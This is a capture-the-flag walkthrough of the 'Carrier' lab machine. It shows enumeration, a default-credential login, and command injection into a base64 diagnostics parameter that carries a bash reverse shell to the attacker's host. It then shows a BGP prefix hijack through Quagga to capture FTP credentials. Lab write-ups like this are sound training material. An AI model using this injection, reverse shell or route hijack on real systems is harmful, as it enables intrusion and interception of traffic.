



# Carrier
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.105 --min-rate 5000           
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-23 19:29 BST
Nmap scan report for 10.10.10.105 (10.10.10.105)
Host is up (0.10s latency).
Not shown: 65450 filtered tcp ports (no-response), 83 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 26.37 seconds

```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.10.105 --min-rate 5000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-23 19:35 BST
Nmap scan report for 10.10.10.105 (10.10.10.105)
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 15:a4:28:77:ee:13:07:06:34:09:86:fd:6f:cc:4c:e2 (RSA)
|   256 37:be:de:07:0f:10:bb:2b:b5:85:f7:9d:92:5e:83:25 (ECDSA)
|_  256 89:5a:ee:1c:22:02:d2:13:40:f2:45:2e:70:45:b0:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.66 seconds

```
```
└─$ sudo nmap -sU -Pn -p- 10.10.10.105 --min-rate 5000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-23 19:36 BST
Warning: 10.10.10.105 giving up on port because retransmission cap hit (10).
Stats: 0:00:20 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 14.39% done; ETC: 19:38 (0:01:59 remaining)
Nmap scan report for 10.10.10.105 (10.10.10.105)
Host is up (0.10s latency).
Not shown: 65386 open|filtered udp ports (no-response), 148 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 145.06 seconds
```

- Web server


- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.105 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.105
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 310] [--> http://10.10.10.105/img/]
/tools                (Status: 301) [Size: 312] [--> http://10.10.10.105/tools/]
/.php                 (Status: 403) [Size: 291]
/doc                  (Status: 301) [Size: 310] [--> http://10.10.10.105/doc/]
/index.php            (Status: 200) [Size: 1509]
/css                  (Status: 301) [Size: 310] [--> http://10.10.10.105/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.105/js/]
/tickets.php          (Status: 302) [Size: 0] [--> /index.php]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.105/fonts/]
/dashboard.php        (Status: 302) [Size: 0] [--> /index.php]
/debug                (Status: 301) [Size: 312] [--> http://10.10.10.105/debug/]
/diag.php             (Status: 302) [Size: 0] [--> /index.php]
/.php                 (Status: 403) [Size: 291]
```

- `snmp`
```
└─$ snmpwalk -c public -v 1 10.10.10.105
SNMPv2-SMI::mib-2.47.1.1.1.1.11 = STRING: "SN#NET_45JDX23"
End of MIB
```

## Foothold
- We find 2 interesting files in `/doc`
  - `pdf` indicates that `admin`'s default password is `serial number`





- Using that hint, we can try to login using result from `snmp`
  - `admin:NET_45JDX23`


- `Tickets`


- `Diagnostics`



- Results from diagnostics page looks identical to `top`'s output
  - Parameter `check` is `base64`-encoded 


- Let's play with it
  - We see the command `ps waux | grep $(<process-base64-encoded> | base64 -d)  | grep -v grep`


- Let's get a reverse shell
  - `test;bash -c "/bin/bash -i >& /dev/tcp/10.10.16.9/6666 0>&1"`


## Root
- We saw a ticket regarding route leakage
  - Let's check ip
  - We have 3
```
root@r1:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
8: eth0@if9: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:d9:04:ea brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.99.64.2/24 brd 10.99.64.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fed9:4ea/64 scope link 
       valid_lft forever preferred_lft forever
10: eth1@if11: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:8a:f2:4f brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.78.10.1/24 brd 10.78.10.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fe8a:f24f/64 scope link 
       valid_lft forever preferred_lft forever
12: eth2@if13: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:20:98:df brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.78.11.1/24 brd 10.78.11.255 scope global eth2
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fe20:98df/64 scope link 
       valid_lft forever preferred_lft forever

```

- Routes
```
root@r1:~# ip r
default via 10.99.64.1 dev eth0 onlink 
10.78.10.0/24 dev eth1  proto kernel  scope link  src 10.78.10.1 
10.78.11.0/24 dev eth2  proto kernel  scope link  src 10.78.11.1 
10.99.64.0/24 dev eth0  proto kernel  scope link  src 10.99.64.2 
10.100.10.0/24 via 10.78.10.2 dev eth1  proto zebra 
10.100.11.0/24 via 10.78.10.2 dev eth1  proto zebra 
10.100.12.0/24 via 10.78.10.2 dev eth1  proto zebra 
10.100.13.0/24 via 10.78.10.2 dev eth1  proto zebra 
10.100.14.0/24 via 10.78.10.2 dev eth1  proto zebra 
10.100.15.0/24 via 10.78.10.2 dev eth1  proto zebra 
10.100.16.0/24 via 10.78.10.2 dev eth1  proto zebra 
10.100.17.0/24 via 10.78.10.2 dev eth1  proto zebra 
10.100.18.0/24 via 10.78.10.2 dev eth1  proto zebra 
10.100.19.0/24 via 10.78.10.2 dev eth1  proto zebra 
10.100.20.0/24 via 10.78.10.2 dev eth1  proto zebra 
10.120.10.0/24 via 10.78.11.2 dev eth2  proto zebra 
10.120.11.0/24 via 10.78.11.2 dev eth2  proto zebra 
10.120.12.0/24 via 10.78.11.2 dev eth2  proto zebra 
10.120.13.0/24 via 10.78.11.2 dev eth2  proto zebra 
10.120.14.0/24 via 10.78.11.2 dev eth2  proto zebra 
10.120.15.0/24 via 10.78.11.2 dev eth2  proto zebra 
10.120.16.0/24 via 10.78.11.2 dev eth2  proto zebra 
10.120.17.0/24 via 10.78.11.2 dev eth2  proto zebra 
10.120.18.0/24 via 10.78.11.2 dev eth2  proto zebra 
10.120.19.0/24 via 10.78.11.2 dev eth2  proto zebra 
10.120.20.0/24 via 10.78.11.2 dev eth2  proto zebra 
```

- `bgpd.conf`
```
root@r1:~# cat /etc/quagga/bgpd.conf
!
! Zebra configuration saved from vty
!   2018/07/02 02:14:27
!
route-map to-as200 permit 10
route-map to-as300 permit 10
!
router bgp 100
 bgp router-id 10.255.255.1
 network 10.101.8.0/21
 network 10.101.16.0/21
 redistribute connected
 neighbor 10.78.10.2 remote-as 200
 neighbor 10.78.11.2 remote-as 300
 neighbor 10.78.10.2 route-map to-as200 out
 neighbor 10.78.11.2 route-map to-as300 out
!
line vty
!
```

- We are in `AS100` - `10.99.64.2`
  - `AS200` - `10.78.10.2`
  - `AS300` - `10.78.11.2`
- Ticket was reporting about `ftp` issue on `10.120.15.0/24`
  - `10.120.0.0/15` goes to `10.78.11.2` - `AS300`
- So let's ping the subnet
```
root@r1:~# for i in {1..254}; do (ping -c 1 10.120.15.$i | grep "bytes from" &); done;
64 bytes from 10.120.15.1: icmp_seq=1 ttl=64 time=0.116 ms
64 bytes from 10.120.15.10: icmp_seq=1 ttl=63 time=0.063 ms
```

- We have a `nc` on the box to perform port scan
  - We saw `10.120.15.10`, which is probably the address that has `ftp`
```
root@r1:~# nc -zv 10.120.15.10 1-65535 2>&1 | grep -v refused
Connection to 10.120.15.10 21 port [tcp/ftp] succeeded!
Connection to 10.120.15.10 22 port [tcp/ssh] succeeded!
Connection to 10.120.15.10 53 port [tcp/domain] succeeded!
```

- Since we saw `BGP` configs, it indicates that we can perform [BGP Hijacking](https://www.cloudflare.com/learning/security/glossary/bgp-hijacking/)
  - `BGP hijacking is when attackers maliciously reroute Internet traffic. Attackers accomplish this by falsely announcing ownership of groups of IP addresses, called IP prefixes, that they do not actually own, control, or route to.`
  - To perform it we need to:
    - `Offer a more specific route by announcing a smaller range of IP addresses than other ASes had previously announced.`
    - `Offer a shorter route to certain blocks of IP addresses. Additionally, not just anyone can announce BGP routes to the larger Internet. In order for a BGP hijack to occur, the announcement must be made by the operator of an AS, or by a threat actor who has compromised an AS (the second case is more rare).`
  - Since `BGP always favors the shortest, most specific path to the desired IP address.`
- Before that, we have a `restore` script which returns all changes to `bgp` back to default
  - We can make it not executable while playing around with `bgp`
```
root@r1:~# crontab -l
...
*/10 * * * * /opt/restore.sh
root@r1:~# cat /opt/restore.sh 
#!/bin/sh
systemctl stop quagga
killall vtysh
cp /etc/quagga/zebra.conf.orig /etc/quagga/zebra.conf
cp /etc/quagga/bgpd.conf.orig /etc/quagga/bgpd.conf
systemctl start quagga
root@r1:~# 
```
```
root@r1:~# ls -lha /opt/restore.sh 
-rwxr-xr-x 1 root root 175 Jul  2  2018 /opt/restore.sh
```

- So right now, we can advertise `10.120.15.0/25` to `AS200`
  - Since it's more specific route it will get advertized to `AS200`
  - But we won't share it with `AS300` so that routes still works (so `AS300` won't send us traffic)
    - We only intercept `AS200`'s traffic
```
root@r1:~# chmod -x /opt/restore.sh 
root@r1:~# vtysh

Hello, this is Quagga (version 0.99.24.1).
Copyright 1996-2005 Kunihiro Ishiguro, et al.

r1# show running-config
Building configuration...

Current configuration:
!
!
interface eth0
 ipv6 nd suppress-ra
 no link-detect
!
interface eth1
 ipv6 nd suppress-ra
 no link-detect
!
interface eth2
 ipv6 nd suppress-ra
 no link-detect
!
interface lo
 no link-detect
!
router bgp 100
 bgp router-id 10.255.255.1
 network 10.101.8.0/21
 network 10.101.16.0/21
 redistribute connected
 neighbor 10.78.10.2 remote-as 200
 neighbor 10.78.10.2 route-map to-as200 out
 neighbor 10.78.11.2 remote-as 300
 neighbor 10.78.11.2 route-map to-as300 out
!
route-map to-as200 permit 10
!
route-map to-as300 permit 10
!
ip forwarding
!
line vty
!
end
```
- We can check summary
```
r1# sh ip bgp summary
BGP router identifier 10.255.255.1, local AS number 100
RIB entries 53, using 5936 bytes of memory
Peers 2, using 9136 bytes of memory

Neighbor        V         AS MsgRcvd MsgSent   TblVer  InQ OutQ Up/Down  State/PfxRcd
10.78.10.2      4   200      12      14        0    0    0 00:07:48       22
10.78.11.2      4   300      11      17        0    0    0 00:07:47       22

Total number of neighbors 2
```

- To see specific network's information
```
r1# sh ip bgp 10.120.15.0/24
BGP routing table entry for 10.120.15.0/24
Paths: (2 available, best #1, table Default-IP-Routing-Table)
  Advertised to non peer-group peers:
  10.78.10.2
  300
    10.78.11.2 from 10.78.11.2 (10.255.255.3)
      Origin IGP, metric 0, localpref 100, valid, external, best
      Last update: Tue Oct 24 18:00:17 2023

  200 300
    10.78.10.2 from 10.78.10.2 (10.255.255.2)
      Origin IGP, localpref 100, valid, external
      Last update: Tue Oct 24 18:00:16 2023
```

- Okay, let's start
  - First we create network we advertise
```
r1# conf t
r1(config)# router bgp 100
r1(config-router)# network 10.120.15.0/25
r1(config-router)# end
```

- Now, we need to cut off advertising to `AS300` and advertise to `AS200`
  - We also have to tell `AS200` not to advertise our route to `10.120.15.0/25`
```
r1# conf t
r1(config)# ip prefix-list bgp-hijack permit 10.120.15.0/25
r1(config)# route-map to-as200 permit 10
r1(config-route-map)# match ip address prefix-list bgp-hijack
r1(config-route-map)# set community no-export
r1(config-route-map)# route-map to-as200 permit 20
r1(config-route-map)# route-map to-as300 deny 10
r1(config-route-map)# match ip address prefix-list bgp-hijack
r1(config-route-map)# route-map to-as300 permit 20
r1(config-route-map)# exit
r1(config)# exit

```

- Final config
```
r1# show running-config 
Building configuration...

Current configuration:
!
!
interface eth0
 ipv6 nd suppress-ra
 no link-detect
!
interface eth1
 ipv6 nd suppress-ra
 no link-detect
!
interface eth2
 ipv6 nd suppress-ra
 no link-detect
!
interface lo
 no link-detect
!
router bgp 100
 bgp router-id 10.255.255.1
 network 10.101.8.0/21
 network 10.101.16.0/21
 network 10.120.15.0/25
 redistribute connected
 neighbor 10.78.10.2 remote-as 200
 neighbor 10.78.10.2 route-map to-as200 out
 neighbor 10.78.11.2 remote-as 300
 neighbor 10.78.11.2 route-map to-as300 out
!
ip prefix-list bgp-hijack seq 5 permit 10.120.15.0/25
!
route-map to-as200 permit 10
 match ip address prefix-list bgp-hijack
 set community no-export 
!
route-map to-as200 permit 20
!
route-map to-as300 deny 10
 match ip address prefix-list bgp-hijack
!
route-map to-as300 permit 20
!
ip forwarding
!
line vty
!
end

```

- If we compare routes, we see that we only advertise `10.120.15.0/24` to `10.78.10.2`
```
r1# show ip bgp neighbors 10.78.10.2 advertised-routes
BGP table version is 0, local router ID is 10.255.255.1
Status codes: s suppressed, d damped, h history, * valid, > best, = multipath,
              i internal, r RIB-failure, S Stale, R Removed
Origin codes: i - IGP, e - EGP, ? - incomplete

   Network          Next Hop            Metric LocPrf Weight Path
*> 10.78.10.0/24    10.78.10.1               0         32768 ?
*> 10.78.11.0/24    10.78.10.1               0         32768 ?
*> 10.99.64.0/24    10.78.10.1               0         32768 ?
*> 10.101.8.0/21    10.78.10.1               0         32768 i
*> 10.101.16.0/21   10.78.10.1               0         32768 i
*> 10.120.10.0/24   10.78.10.1                             0 300 i
*> 10.120.11.0/24   10.78.10.1                             0 300 i
*> 10.120.12.0/24   10.78.10.1                             0 300 i
*> 10.120.13.0/24   10.78.10.1                             0 300 i
*> 10.120.14.0/24   10.78.10.1                             0 300 i
*> 10.120.15.0/24   10.78.10.1                             0 300 i
*> 10.120.15.0/25   10.78.10.1               0         32768 i
*> 10.120.16.0/24   10.78.10.1                             0 300 i
*> 10.120.17.0/24   10.78.10.1                             0 300 i
*> 10.120.18.0/24   10.78.10.1                             0 300 i
*> 10.120.19.0/24   10.78.10.1                             0 300 i
*> 10.120.20.0/24   10.78.10.1                             0 300 i

Total number of prefixes 17
```
```
r1# show ip bgp neighbors 10.78.11.2 advertised-routes
BGP table version is 0, local router ID is 10.255.255.1
Status codes: s suppressed, d damped, h history, * valid, > best, = multipath,
              i internal, r RIB-failure, S Stale, R Removed
Origin codes: i - IGP, e - EGP, ? - incomplete

   Network          Next Hop            Metric LocPrf Weight Path
*> 10.78.10.0/24    10.78.11.1               0         32768 ?
*> 10.78.11.0/24    10.78.11.1               0         32768 ?
*> 10.99.64.0/24    10.78.11.1               0         32768 ?
*> 10.100.10.0/24   10.78.11.1                             0 200 i
*> 10.100.11.0/24   10.78.11.1                             0 200 i
*> 10.100.12.0/24   10.78.11.1                             0 200 i
*> 10.100.13.0/24   10.78.11.1                             0 200 i
*> 10.100.14.0/24   10.78.11.1                             0 200 i
*> 10.100.15.0/24   10.78.11.1                             0 200 i
*> 10.100.16.0/24   10.78.11.1                             0 200 i
*> 10.100.17.0/24   10.78.11.1                             0 200 i
*> 10.100.18.0/24   10.78.11.1                             0 200 i
*> 10.100.19.0/24   10.78.11.1                             0 200 i
*> 10.100.20.0/24   10.78.11.1                             0 200 i
*> 10.101.8.0/21    10.78.11.1               0         32768 i
*> 10.101.16.0/21   10.78.11.1               0         32768 i

Total number of prefixes 16
```

- Now we intercept the traffic
```
root@r1:~# tcpdump -i any -nnXSs 0 'port 21' -w out.pcap
^Croot@r1:~# ls -lha
total 40K
drwx------ 1 root root  196 Oct 24 18:36 .
drwxr-xr-x 1 root root  140 Jun 22  2018 ..
-rw-r--r-- 1 root root 3.1K Jul  2  2018 .bashrc
drwx------ 1 root root   40 Jul  2  2018 .cache
drwxr-xr-x 1 root root    0 Jul  2  2018 .nano
-rw------- 1 root root  169 Oct 24 18:38 nohup.out
-rw-r--r-- 1 root root  11K Oct 24 18:49 out.pcap
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   66 Jul  2  2018 .selected_editor
drwx------ 1 root root   52 Jul  2  2018 .ssh
-rw-r--r-- 1 root root    0 Jul  3  2018 test_intercept.pcap
lrwxrwxrwx 1 root root   18 Sep 30  2022 user.txt -> /opt/flag/user.txt
-rw------- 1 root root 5.1K Sep 30  2022 .viminfo
root@r1:~# base64 -w0 out.pcap 
1MOyoQIABAAAAAAAAAAAAAAABABxAAAAYRE4ZelbCQBMAAAATAAAAAA...
```

- Copy output to your system
```
└─$ base64 -d dump > dump.pcap 
```

- Open `wireshark`



- We can `ssh` using the creds
```
root@r1:~# ssh root@10.120.15.10
root@10.120.15.10's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-24-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Oct 24 18:53:17 UTC 2023

  System load:  0.01              Users logged in:       1
  Usage of /:   63.6% of 8.73GB   IP address for ens160: 10.10.10.105
  Memory usage: 36%               IP address for lxdbr0: 10.99.64.1
  Swap usage:   0%                IP address for lxdbr1: 10.120.15.10
  Processes:    282


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

4 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Oct 24 18:51:52 2023 from 10.10.16.9
root@carrier:~#
```